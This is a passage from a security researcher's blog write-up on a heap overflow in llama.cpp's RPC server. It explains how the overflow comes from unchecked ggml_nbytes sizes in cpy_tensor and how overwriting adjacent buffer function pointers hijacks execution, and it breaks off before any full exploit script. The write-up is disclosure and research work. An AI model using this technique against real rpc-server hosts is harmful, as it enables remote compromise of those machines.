# Retr0's Register

> **Source:** Originally published at https://retr0.blog/blog/llama-rpc-rce
> **Author:** Original author (personal blog / CTF team archive)
> **Retrieved:** 2026-07-13
> **Word count:** 10544
> **Images:** 16 embedded locally

---

Retr0's Registerretr0blog

#

-
-

# Llama's Paradox - Delving deep into Llama.cpp and exploiting Llama.cpp's Heap Maze, from Heap-Overflow to Remote-Code Execution.


By Ruikai Peng

February 6, 2025


>


If you are an exploitation enthusiast, this write-up will be a perfect source of entertainment. I spent ~`30h` on exploiting the heap-overflow to remote-code execution. At the same time, I had already spent around `2 weeks` prior researching/understanding `Llama.cpp` source regarding its very own RPC & Memory implementations. Since `Llama.cpp` has such a special heap-management system, special features of this system will **fail the classic `ptmalloc` exploitations that we are familiar with. Thus, even though this is a heap-overflow, the exploitation won't be the classic `ptmalloc` heap-exploitations, rather interesting vectors exploiting `Llama.cpp`'s implementations logic. Enjoy reading:)


`Llama.cpp` is always something I would love to work on, a sort of *'ultimate' goal for my `AI/ML` research; not only that but finding a stack/heap-overflow RCE in this sophisticated and well-developed ML Project always sounds so cool. *(Besides, I am so hungry for a binary-exp in `AI` Projects to prove my binary-exploitation things are not 'outdated', but that's another thing ) Thus, I decided to research on `Llama.cpp`'s `RPC` components, when I saw these security adversaries posted on its GitHub *'Security' tab - *I was like: Wow, these are just simple *write-what-wheres and *read-what-wheres; this must be a *'money' project to work on with a little bit of efforts required.


Then `Llama.cpp` proved me very wrong. I found nothing in the first **two weeks, as they implemented tons of security checks on `RPC` `Tensor` deserializations, fully allocated memory `'buffer'` tracing, and implementations of the `RPC` endpoints. These *write-what-wheres were patched strictly so that when you try to exploit again, you might trigger two assert errors on the way, integer overflow was checked everywhere, you can't mess with the pointers anymore in anyways. It is very secure and not exploitable - devastating it's, I do gain a better understanding of the implementation itself and `cpp` *(I never systematically learn `cpp`) - `Llama.cpp` have its very own memory-management system, memory security patches and mitigations, you will see what I am talking about in most parts of this write-up, we will be dealing with different paradox, mitigation, entirely new methodology and exploitation vectors that I never though up before this such unique exploitation. Finally, everything is just chained together, and you will see what a unique exploitation script and process is, as well as the satisfaction of bypassing everything and not giving up on the process.


For this 10k-word write-up, I spent around a month finishing up the main parts, and refining/editing it took an extra while. Writing this is indeed a painful process. I spent the entire day on the weekend and 4-5 hours during the rest of the week working on it for around two weeks. But on the other hand, it is a joyful process of exploring memory things step-by-step. Who doesn't like it? Enjoy reading!


# Before the Storm


The story begins at `Llama.cpp`'s `RPC` functions, for the past few months, `Llama.cpp`'s `RPC` Server had been a focus of exploitation. `rpc-server` in `llama.cpp` enables the execution of the `GGML` backend on a remote host, allowing for distributed large language model (LLM) inference. By offloading computations to one or more `rpc-server` instances, users can leverage the processing power of multiple machines or specialized hardware, such as GPUs, to enhance performance.


At the very beginning of the development stage of the `RPC` server, low-level memory security vulnerabilities were reported (``GHSA-wcr5-566p-9cwj, ``GHSA-5vm9-p64x-gqw9j, ``GHSA-mqp6-7pv6-fqj), mostly exploited on `Llama.cpp`'s `tensor` memory-related operations. These early-stage vulnerabilities are straightforward exploits that depend less on GGML's RPC memory management logic and more on input considerations. However, we should understand a bit about its memory management process;


`Llama.cpp` implements its own mechanism for memory management, based on glibc basic malloc and the classic ptmalloc management methods; meanwhile, added features to the manage-process to optimize `Tensor` related processing operations.


To begin with, all memory-related operations require a `RPC` allocated memory via the `alloc_buffer` command. The `RPC` endpoint for it requires only a parameter of size. However, this is a bit more complex than simply returning the malloc-ed pointer address. Instead, the address of a `buffer` structure, allocated additionally, with the actual `malloc`-ed region wrapped as `buffer->data` with be returned; At the meantime, `Llama.cpp`'s `RPC` parse request in the format of `Tensor`, not only as a form of payload for these


### Prerequisites: `Tensor`, `buffer` structure


```
<code class="lang-c hljs language-c" data-highlighted="yes">    // ggml/src/ggml-backend-impl.h:60
    struct ggml_backend_buffer {
        struct ggml_backend_buffer_i  iface;
        ggml_backend_buffer_type_t    buft;
        void * context;
        size_t size;
        enum ggml_backend_buffer_usage usage;
    };
</code><button class="copy-btn bg-transparent border border-zinc-700 text-secondary hover:text-white hover:bg-zinc-700/40 transition p-2 rounded !cursor-pointer" style="position: absolute; top: 0.5rem; right: 0.5rem;"><svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round" class="lucide lucide-copy"><rect width="14" height="14" x="8" y="8" rx="2" ry="2"></rect><path d="M4 16c-1.1 0-2-.9-2-2V4c0-1.1.9-2 2-2h10c1.1 0 2 .9 2 2"></path></svg></button>
```


The `buffer` structure consists of the `buffer` methods/pointers structure `ggml_backend_buffer_i iface`, backend management thread `ggml_backend_buffer_type_t buft;` the actual address of allocated memory `context`, the `size_t size;` of the allocated memory, lastly the `ggml_backend_buffer_usage usage`; The interesting part here is the `iface` structure, a part that we will embrace a lot, and take a much deeper analysis during the exploitation steps.

```
<code class="lang-c hljs language-c" data-highlighted="yes">    struct ggml_backend_buffer_i {
        void         (*free_buffer)  (ggml_backend_buffer_t buffer);
        void *       (*get_base)     (ggml_backend_buffer_t buffer);
        void         (*init_tensor)  (ggml_backend_buffer_t buffer, struct ggml_tensor * tensor);
        void         (*memset_tensor)(ggml_backend_buffer_t buffer,       struct ggml_tensor * tensor,     uint8_t value, size_t offset, size_t size);
        void         (*set_tensor)   (ggml_backend_buffer_t buffer,       struct ggml_tensor * tensor, const void * data, size_t offset, size_t size);
        void         (*get_tensor)   (ggml_backend_buffer_t buffer, const struct ggml_tensor * tensor,       void * data, size_t offset, size_t size);
        bool         (*cpy_tensor)   (ggml_backend_buffer_t buffer, const struct ggml_tensor * src, struct ggml_tensor * dst);
        void         (*clear)        (ggml_backend_buffer_t buffer, uint8_t value);
        void         (*reset)        (ggml_backend_buffer_t buffer);
    };
</code><button class="copy-btn bg-transparent border border-zinc-700 text-secondary hover:text-white hover:bg-zinc-700/40 transition p-2 rounded !cursor-pointer" style="position: absolute; top: 0.5rem; right: 0.5rem;"><svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round" class="lucide lucide-copy"><rect width="14" height="14" x="8" y="8" rx="2" ry="2"></rect><path d="M4 16c-1.1 0-2-.9-2-2V4c0-1.1.9-2 2-2h10c1.1 0 2 .9 2 2"></path></svg></button>
```


`Llama.cpp`'s multi-architectural made it necessary to assign different methods according to the targeted server architecture; for instance machines with only CPU support's `iface.get_tensor` will be set to `ggml_backend_cpu_buffer_get_tensor`, while CUDA supported server will enable `ggml_backend_cuda_buffer_get_tensor`. These methods, different in architecture have identical implementation, however, with different compatibility variations (For instance, CUDA machine uses `cudaMemcpyAsync`, on the other hand CPU versions use the native `memcpy` from the C-Standard-Library).

```
<code class="lang-c hljs language-c" data-highlighted="yes">struct ggml_tensor {
        enum ggml_type type;
        GGML_DEPRECATED(enum ggml_backend_type backend, "use the buffer type to find the storage location of the tensor");
        struct ggml_backend_buffer * buffer;
        int64_t ne[GGML_MAX_DIMS]; // number of elements
        size_t  nb[GGML_MAX_DIMS]; // stride in bytes:
        // compute data
        enum ggml_op op;
        // op params - allocated as int32_t for alignment
        int32_t op_params[GGML_MAX_OP_PARAMS / sizeof(int32_t)];
        int32_t flags;
        struct ggml_tensor * src[GGML_MAX_SRC];
        // source tensor and offset for views
        struct ggml_tensor * view_src;
        size_t               view_offs;
        void * data;
        char name[GGML_MAX_NAME];
        void * extra; // extra things e.g., for ggml-cuda.cu
        char padding[8];
    };
</code><button class="copy-btn bg-transparent border border-zinc-700 text-secondary hover:text-white hover:bg-zinc-700/40 transition p-2 rounded !cursor-pointer" style="position: absolute; top: 0.5rem; right: 0.5rem;"><svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round" class="lucide lucide-copy"><rect width="14" height="14" x="8" y="8" rx="2" ry="2"></rect><path d="M4 16c-1.1 0-2-.9-2-2V4c0-1.1.9-2 2-2h10c1.1 0 2 .9 2 2"></path></svg></button>
```


`Tensor` is used everywhere in `llama.cpp`. Here yet we won't delve in to the technical details of `int64_t ne[GGML_MAX_DIMS];` / `size_t nb[GGML_MAX_DIMS];` and how it stores tensors's shapes and strides. Additionally to tensor data transportations, the `Tensor` structure in `llama.cpp` provides a serialization standard for the `RPC` communications, combined with previous introductions to the `buffer` structure, lets take a looking in an instance how the memory-allocation-endpoints communicates, using `buffer` and `Tensor`.


## Past Patches, Mitigation


The three reported adversaries we mentioned previously *(``GHSA-wcr5-566p-9cwj, ``GHSA-5vm9-p64x-gqw9j, ``GHSA-mqp6-7pv6-fqj) are actually exploitations that are exploiting a fundamental, essence of flaw of design - **the lack of boundary checks on the `buffer` / `buffer->data` pointer. The existence of this flaw in applied different features of `RPC` server - whether the `get_tensor`or the `set_tensor` allowed attackers to achieve read-what-wheres or write-what-where.

```
<code class="lang-c hljs language-c" data-highlighted="yes">static void ggml_backend_cpu_buffer_set_tensor(ggml_backend_buffer_t buffer, struct ggml_tensor * tensor, const void * data, size_t offset, size_t size) {
    memcpy((char *)tensor->data + offset, data, size);
    // write-what-wheres, past version of Llama.cpp's RPC had no sanitization on buffer->data validty, sadly you can just write-what-where
    GGML_UNUSED(buffer);
}
</code><button class="copy-btn bg-transparent border border-zinc-700 text-secondary hover:text-white hover:bg-zinc-700/40 transition p-2 rounded !cursor-pointer" style="position: absolute; top: 0.5rem; right: 0.5rem;"><svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round" class="lucide lucide-copy"><rect width="14" height="14" x="8" y="8" rx="2" ry="2"></rect><path d="M4 16c-1.1 0-2-.9-2-2V4c0-1.1.9-2 2-2h10c1.1 0 2 .9 2 2"></path></svg></button>
```


However, these memory problems were solved by implementing tons of `glibc` level memory-checks of the `buffer` structure - there's time that a pointer or `Tensor` size will be check twice, or even more; These mitigations are implemented before deserialization of a tensor *(`deserialize_tensor()`), `RPC` method call-wrappers (e.g `rpc_server::set_tensor`), call-wrappers's internal implementations (e.g. `ggml_backend_tensor_set`), and even in the `buffer->iface` implementations (e.g `ggml_backend_cpu_buffer_cpy_tensor`), these four stage of checks made you aware of the pointer validation according to every-steps of the `RPC` processing *(Fun fact, at the very beginning of the research I spent around 3-5 hours just to figurer out how the tensor checks works so I can try the past exploitation, to see if they fixed it properly, and they did).


Looking into these mitigation, going to step-by-step, the first check a remote `Tensor` will face is the check at `deserialize_tensor()`, where the `tensor->data` pointer, used mainly in `get_tensor` and `set_tensor` is checked whether inside of the `ggml_backend_buffer_get_base` to `ggml_backend_buffer_get_size` range or not, while it also consider exploitations where `tensor_size` is possibly negative, which can results backward writes/reads in `set/get_tensor` method. At the meantime, `ggml_backend_buffer_get_base`, `ggml_backend_buffer_get_size`; wrapper for `tensor->context` and `tensor->size`, made bypassing the mitigation not-easy or we will need to forge a `buffer` structure, with valid `buffer` internal pointers.

```
<code class="lang-cpp hljs language-cpp" data-highlighted="yes">    // ggml/src/ggml-rpc/ggml-rpc.cpp:848
    if (result->buffer) {
        // require that the tensor data does not go beyond the buffer end
        uint64_t tensor_size = (uint64_t) ggml_nbytes(result);
        uint64_t buffer_start = (uint64_t) ggml_backend_buffer_get_base(result->buffer);
        uint64_t buffer_size = (uint64_t) ggml_backend_buffer_get_size(result->buffer);
        GGML_ASSERT(tensor->data + tensor_size >= tensor->data); // check for overflow
        GGML_ASSERT(tensor->data >= buffer_start && tensor->data + tensor_size <= buffer_start + buffer_size);
    }
</code><button class="copy-btn bg-transparent border border-zinc-700 text-secondary hover:text-white hover:bg-zinc-700/40 transition p-2 rounded !cursor-pointer" style="position: absolute; top: 0.5rem; right: 0.5rem;"><svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round" class="lucide lucide-copy"><rect width="14" height="14" x="8" y="8" rx="2" ry="2"></rect><path d="M4 16c-1.1 0-2-.9-2-2V4c0-1.1.9-2 2-2h10c1.1 0 2 .9 2 2"></path></svg></button>
```


>


Mentioning here the `buffer` pointer's validity were also checked in `ggml/src/ggml-rpc/ggml-rpc.cpp:843 (deserialize_tensor())` -> `result->buffer && buffers.find(result->buffer) == buffers.end()`, by examining the global `buffer` management array `buffers`, this prevents any pre-forged `buffer` structure exploitations


`request.tensor.data` / (`buffer->data`) validity, with `request.offset` / `request.size` are checked furthermore in the call-wrapper implementations, here the sanitization is similar to the previous ones using `ggml_backend_buffer_get_base`, `ggml_backend_buffer_get_size` (we might refer this to `p0` `p1` in the future), however, with included the `offset` / `size` which is a part of the `RPC` passed parameter, these can change the range of the final `get_tensor` / `set_tensor` thus checked together with the `buffer->data`. Interestingly here also checked if `request.tensor.data + request.offset` is negative to prevent backwards write/read. While prevented out-of-bounds read/write via `request.size`.

```
<code class="lang-cpp hljs language-cpp" data-highlighted="yes">    // ggml/src/ggml-rpc/ggml-rpc.cpp:924
    {
        const size_t p0 = (size_t) ggml_backend_buffer_get_base(tensor->buffer);
        const size_t p1 = p0 + ggml_backend_buffer_get_size(tensor->buffer);

        if (request.tensor.data + request.offset < p0 ||
            request.tensor.data + request.offset >= p1 ||
            request.size > (p1 - request.tensor.data - request.offset)) {
                GGML_ABORT("[%s] tensor->data out of bounds\n", __func__);
        }
    }
</code><button class="copy-btn bg-transparent border border-zinc-700 text-secondary hover:text-white hover:bg-zinc-700/40 transition p-2 rounded !cursor-pointer" style="position: absolute; top: 0.5rem; right: 0.5rem;"><svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round" class="lucide lucide-copy"><rect width="14" height="14" x="8" y="8" rx="2" ry="2"></rect><path d="M4 16c-1.1 0-2-.9-2-2V4c0-1.1.9-2 2-2h10c1.1 0 2 .9 2 2"></path></svg></button>
```


Lastly, some `buffer->iface` implementation also implemented checks. For instance, `ggml_backend_cpu_buffer_cpy_tensor` checked `(ggml_backend_buffer_is_host(src->buffer)) {` to make sure that the validity of `src->buffer`. This is a fully considered sanitization since one possible exploitation I considered **is manually leaving `src->buffer` to `NULL`, which will fail the `p0/p1` checks on the `src->data` checks *(since `buffer` is a `NULL` pointer, internal processing of `ggml_backend_buffer_get_base` will skip tests and return `0`), potentially allowing us to leak arbitrary address. It is very exploitable, and this is a part of their considerations.


# Analysis: Dimensions to Destruction, `cpy_tensor`, and `ggml_nbytes`


Despite the `buffer->data` pointer being sanitized in every possible way, the `get_base()` (`buffer->context`) and `buffer->size` are being examined in such scary ways. However, we still found an interesting heap-overflow vector hidden in the jungle of `ggml_backend_cpu` method during the research process.


The exploitation starts with an interesting method: `ggml_nbytes`, a technique for calculating the dimension size of Tensor objects.

```
<code class="lang-c hljs language-c" data-highlighted="yes">size_t ggml_nbytes(const struct ggml_tensor * tensor) {
    size_t nbytes;
    const size_t blck_size = ggml_blck_size(tensor->type);
    if (blck_size == 1) {
        nbytes = ggml_type_size(tensor->type);
        for (int i = 0; i < GGML_MAX_DIMS; ++i) {
            nbytes += (tensor->ne[i] - 1)*tensor->nb[i];
        }
    }
    else {
        nbytes = tensor->ne[0]*tensor->nb[0]/blck_size;
        for (int i = 1; i < GGML_MAX_DIMS; ++i) {
            nbytes += (tensor->ne[i] - 1)*tensor->nb[i];
        }
    }
    return nbytes;
}

int64_t ggml_blck_size(enum ggml_type type) {
    return type_traits[type].blck_size;
}

static const struct ggml_type_traits type_traits[GGML_TYPE_COUNT] = {
    [GGML_TYPE_I8] = {
        .type_name                = "i8",
        .blck_size                = 1,
        .type_size                = sizeof(int8_t),
        .is_quantized             = false,
    },
    // ....
</code><button class="copy-btn bg-transparent border border-zinc-700 text-secondary hover:text-white hover:bg-zinc-700/40 transition p-2 rounded !cursor-pointer" style="position: absolute; top: 0.5rem; right: 0.5rem;"><svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round" class="lucide lucide-copy"><rect width="14" height="14" x="8" y="8" rx="2" ry="2"></rect><path d="M4 16c-1.1 0-2-.9-2-2V4c0-1.1.9-2 2-2h10c1.1 0 2 .9 2 2"></path></svg></button>
```


`ggml_nbytes()` is a method that is often loaded by `llama.cpp` as in the `libggml-base.so` (`ggml.c`) to calculate the data size of a `Tensor` *(A tensor is a multi-dimensional data structure commonly used in machine learning and numerical computing) based on a `Tensor`'s shape `tensor->ne[]` and stride `tensor->nb[]`.


The `ggml_blck_size` gets its corresponded `blck_size` via method `ggml_blck_size`, a wrapper for the global variable `type_traits` *(Interestingly, past vulnerabilities were identified in `ggml_blck_size` when `type` of the `ggml_tensor` wasn't limited/sanitized, this allowed out-of-bounds reads based on the `type_traits` global variable, until they introduced size limitation on `Tensor->type`); These `.blck_size` does not increase linearly, instead, dependent on the properties of `GGML_TYPE_X` itself.


The interesting part here is the `nbytes`, size of the `Tensor` is calculated and determined by the `tensor->ne[i]` array, `tensor->nb[0]`, and the `tensor->type` *(being converted into `blck_size` using `ggml_blck_size`), meaning that, **if the `Tensor`'s `(ne[] || nb[])` is controlled, the returned `nbytes` will be controlled *(to delve deeper in the exploitation part regarding the calculation of `ggml_nbytes`, we will not explain how the size is calculated right now). This won't really be a problem at in `llama.cpp`'s general usage of `ggml_nbytes`, since GGML `Tensors` typically have practical limits on their dimensions due to memory constraints. **However, this does become a start of the storm at one of `GGML`'s backend dynamic `iface` binding method, `ggml_backend_cpu_buffer_cpy_tensor`.

```
<code class="lang-c hljs language-c" data-highlighted="yes">static bool ggml_backend_cpu_buffer_cpy_tensor(ggml_backend_buffer_t buffer, const struct ggml_tensor * src, struct ggml_tensor * dst) {
    if (ggml_backend_buffer_is_host(src->buffer)) {
        memcpy(dst->data, src->data, ggml_nbytes(src));
        return true;
    }
    return false;

    GGML_UNUSED(buffer);
}
</code><button class="copy-btn bg-transparent border border-zinc-700 text-secondary hover:text-white hover:bg-zinc-700/40 transition p-2 rounded !cursor-pointer" style="position: absolute; top: 0.5rem; right: 0.5rem;"><svg xmlns="http://www.w3.org/2000/svg" width="20" height="20" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round" class="lucide lucide-copy"><rect width="14" height="14" x="8" y="8" rx="2" ry="2"></rect><path d="M4 16c-1.1 0-2-.9-2-2V4c0-1.1.9-2 2-2h10c1.1 0 2 .9 2 2"></path></svg></button>
```


This seems like a proper functioning and secure `buffer->iface` implementation *(might seemed more innocent if I don't put it in context of a exploitation blog and just introduced `ggml_nbytes` in a exploitation blog), regarding all the 3-level checks `llama.cpp` implemented, these checks stop us from any sort of way to mess with the `buffer->data` pointer or the passed `offset` / `size`. Mentioning that the small check on `ggml_backend_buffer_is_host`, nothing really to exploit on the `cpy` functionality of it.


However, notice we that the size of `memcpy` is calculated by the `Tensor` dimensional size of `src`, using the `ggml_nbytes`, and you will starting to see the problem. You see, despite `ggml-rpc.cpp:854`'s `ggml_nbytes` checks regarding the `uint64_t tensor_size = (uint64_t) ggml_nbytes(result)` with `tensor->data` and `buffer_start`. **However, these only check whether the out-of-bounds happen within the buffer->context.


In case of copying one `src->data` to another `context`, `dst->data`, `ggml_nbytes` calculations are manipulated by input-controllable `Tensor` member `ne[]`/ `nb[]`, which will be copied precisely during `deserialize_tensor()`, and this `iface` implementation did not compare for the `ggml_nbytes` size between the `src` and `dst` `Tensor`, this allowed us to construct a *'larger' `Tensor` as `dst`, specified a large dimension size for the *'smaller' `src` *(For large and small we regard the actual applied size), this will result overlapping of `src`'s data to the `dst`, **leading to heap overflow.


In the meantime, the controllable of src->context also guaranteed the exploitability of this vulnerability; we can previously set src->context using set_tensor to fill src->context with payload and overflow based on `dst->context`.


# The Storm: Exploiting the World of Paradox.


Finding the heap-overflow is a great thing, but getting to exploit a heap-overflow is even better, usually the crash files from a `heap-overflow` / `asan` is sufficient enough to submit as a `heap-overflow`, but what's the fun of that. But on the other hand, exploiting this heap-overflow in a unique and sophisticated memory-management system does drag us into this storm, and the World of Paradox.

>


The whole exploitation part was written with the process of the research, meaning that part of it was written before the vulnerability was proved exploitable (which also made it very enjoyable to read). I recommends reading till the end, things and things get more interesting


Setting a breakpoint at the room where it happened, here's what my first thought goes, taking a look into `dst->data`, we will find that this structure is highly close to the `buffer` structure:








In this case, the closest `buffer` structure is at `0x55555557dd10-0x55555557dc00`, only `0x110` to the overflown `dst->data`. Such a "coincidence" in the arrangement of chunks made us very happy! Why? You might have asked, this will need us to take a look back at `ggml/src/ggml-rpc/ggml-rpc.cpp`; this is what happens when a request is parsed into the RPC Server, using `get_tensor` operation as an example:


-

Enters `static void rpc_serve_client(ggml_backend_t backend, sockfd_t sockfd, size_t free_mem, size_t total_mem) {`, where the RPC Server listen for socket connections


-

Enter specific case switch as what the `p8()` command indicates; in this case, it will enter `case RPC_CMD_GET_TENSOR:`


-

Then into `server.set_tensor(input)`, the `rpc_server` type method for handling requests, where here the server deserialize tensors, check for boundaries and sanitation...


-

Eventually, enters a method of `ggml_backend_*` (in this case `ggml_backend_tensor_set`), this method is located in the `ggml-backend.cpp` file, where the actual operations regarding tensors happen.


-

Inside of the `ggml_backend_*` file, because different type/architecture of RPC servers, Llama.cpp does not use single-static methods to operate for these tensors; instead, these operation "threads" are assigned on runtime and stored on the `buffer` thread (as `buf->iface` ), e.g. `tensor_set` operation calls `buf->iface.set_tensor(buf, tensor, data, offset, size);` eventually.


What this means is that if we can control the buffer address (not the context address) via overflowing since they are in such adjacent address, we can control the members of the `buffer` structure; for example, by manipulating `buffer->iface`, the back-end operation methods. We can redirect the execution flow to an arbitrary address; by manipulating the `context` variables, we can bypass existing range checks to re-establish/bypass the mitigation on write-what-where / read-what-where!


For now, our job will be manipulating the heap calculating heap offset between chunks and structure members using `cyclic` and `flat()`; this is a long process since usually other heap components will be affected during the overflow. The size of overflown need to be calculate carefully or you will overwrite unintentionally, this required you to play with the `dimension-size` in both `written-tensor` / `overflown-tensor`.





After spending a morning working on the side-effect of the overflow,**we can call arbitrary address now! (For some reason, we will corrupt other chunk's header during overflow, causing errors in `free()` / `munmap_chunk(): invalid pointer`, fixed by observing the heap structure before/after overflow, you will need to set a chunk's header manually), since we can arrange allocated chunk freely, we can *predict the size header of the next chunk if we use the same allocating approach at the same time (while considering the `prev_in_use` flag, in this case we write `sizeof(buffer)+0x8` to `0x110`)


## Paradox-of-Overflow


As I should mentioned before, both `deserialize_tensor` or the implementation of the backend method presents strict boundary checks regarding the `context` size and `tensor->data` ranging after the previous patch. Specifically, the mitigation in `deserialize_tensor` checks if the `tensor->data` is in range via `ggml_backend_buffer_get_base` and `ggml_backend_buffer_get_size` ( both method depends on the `buffer` members `buffer->context` and `buffer->size`), while implementation checks if the boundary can be corrupted under the influence of request parameters. `` The problem arises here: Exploiting this overflow to a new, hellish level. Even though we can control the execution flow of the RPC server to an arbitrary address, we have zero addresses that we can exploit by manipulating the execution flow. Usually, this will be a easy-to-solve problem, since we already have control over the `buffer` structure, we can manipulate `buffer` members used in the sanitation process of `tensor->data` / `buffer` base, to bypass the previous patches on previous vulnerabilities. However, here the Paradox-of-Overflow came in place:


-

To bypass `tensor->data` / `buffer_base` boundary mitigation, we will have to modify the `buffer` 's `context` / `get_base` members


-

Modifying `buffer` will corrupt other `buffer` member and pointers when we haven't obtained / leaked the `ggmlbase` base address to calculate the actual address of these `buffer->iface` ptrs.


-

To leak `ggmlbase` pointers, or the `ggmlbase` base address, we must external of the legal `tensor->data` range, meaning that we must bypass the boundary mitigation, which bought us back to the first step.


Re-mentioning the fact that we hold zero-pointers at the point of the first overflow, the *paradox-of-overflow made it impossible to exploit solely depending on `buffer` - This= can be a *really, really useful vector when we can edit `buffer` members such as `context`, `get_base` with out risking corrupting the entire `buffer` (In this, we can bypass anything to leak `libc` etc furthermore). But for now, it's best that we leave this vector here and use it when we need it!


